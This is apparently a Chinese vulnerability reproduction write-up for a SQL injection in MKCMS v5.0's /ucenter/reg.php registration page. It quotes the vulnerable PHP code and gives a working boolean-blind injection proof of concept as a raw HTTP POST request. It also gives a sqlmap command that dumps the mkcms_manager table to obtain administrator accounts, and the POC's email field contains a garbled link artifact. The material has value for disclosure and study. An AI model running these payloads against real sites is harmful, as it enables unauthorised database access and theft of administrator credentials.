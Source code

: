 ```yaml
---
title: MKCMS v5.0 /ucenter/reg.php前台注入漏洞
id: zhfly3022
---
```


# MKCMS v5.0 /ucenter/reg.php前台sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

MKCMS v5.0

## 三、复现过程

漏洞出现在`/ucenter/reg.php`第7-19行:

```
if(isset($_POST['submit'])){
$username = stripslashes(trim($_POST['name']));
// 检测用户名是否存在
$query = mysql_query("select u_id from mkcms_user where u_name='$username'");
if(mysql_fetch_array($query)){
echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
exit;
}
$result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
if(mysql_fetch_array($result)){
echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
exit;
} 
```

注册用户名时`$username`参数传到后台后经过`stripslashes()`函数处理，而`stripslashes()`函数的作用是删除`addslashes()` 函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题

POC：

```
POST /ucenter/reg.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/ucenter/reg.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Connection: close
Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
Upgrade-Insecure-Requests: 1 `name=test’ AND 1=1 AND ‘inject’='inject&email=sss%[40qq.com](http://40qq.com)&password=ssssss&submit=` 
```

![image](../img/504da08e2c6819f50b5f4f55784279b6.png)

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：

```
sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump 
```

## 参考链接

> https://xz.aliyun.com/t/4189#toc-1
